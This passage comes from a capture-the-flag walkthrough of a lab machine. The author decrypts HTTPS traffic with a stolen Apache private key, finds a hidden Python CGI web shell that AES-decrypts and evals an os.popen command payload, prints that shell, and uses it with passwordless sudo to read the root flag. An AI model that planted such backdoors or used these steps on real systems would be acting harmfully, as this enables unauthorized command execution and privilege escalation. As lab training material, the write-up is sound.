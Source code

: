  I transferred the SSL private key at `/etc/apache2/certs/apache.key` to my AttackBox and opened Wireshark.

As expected, the connection was encrypted so I loaded the `apache.key` to wirkeshark (Edit -> Preferences -> Protocols -> SSL -> Edit RSA Key list). I then analysed the formerly encrypted HTTP stream:

![](C:\Users\mfichtn\Documents\THM\THM\WhyHackMe\Images\Wireshark.jpg)

Seems like our secret website is executing any command when we call the `5UP3r53Cr37.py` file, and supply the right key. After all, opening the port wasn't too bad. I was playing around with some commands and checked the full script using the `cat 5UP3r53Cr37.py` command in the browser:

```python
#!/usr/bin/python3

from Crypto.Cipher import AES
import os, base64
import cgi, cgitb

print("Content-type: text/html\n\n")
enc_pay = b'k/1umtqRYGJzyyR1kNy3Z+m6bg7Xp7PXXFB9sOih2IPNBRR++jJvUzWZ+WuGdax2ngHyU9seaIb5rEqGcQ7OJA=='
form = cgi.FieldStorage()
try:
    iv = bytes(form.getvalue('iv'),'utf-8')
    key = bytes(form.getvalue('key'),'utf-8')
    cipher = AES.new(key, AES.MODE_CBC, iv)
    orgnl = cipher.decrypt(base64.b64decode(enc_pay))
    print("" + eval(orgnl) + "")
except:
    print("") 
```

When we decrypt the `orgnl` variable, we will find that the python script simply executes the following command:

```python
b'__import__("os").popen(form.getvalue("cmd")).read()#############'
```

We kinda knew this already :-) By altering the string after `cmd=` in the browsers address field (leaving `key` and `iv` intact) we can pretty much execute every command as if we have a shell.

### Step 3c: Finishing

This step can be done in multiple ways. The proper way would certainly be to deploy a reverse shell and the use the terminal as usual. I, however, did it the lazy way and simply used my browser to execute the necessary commands.

I checked `sudo -l` and found that I can run it without password. Sending a `sudo cat /root/root.txt` gave me the root flag.

### Optional analysis:
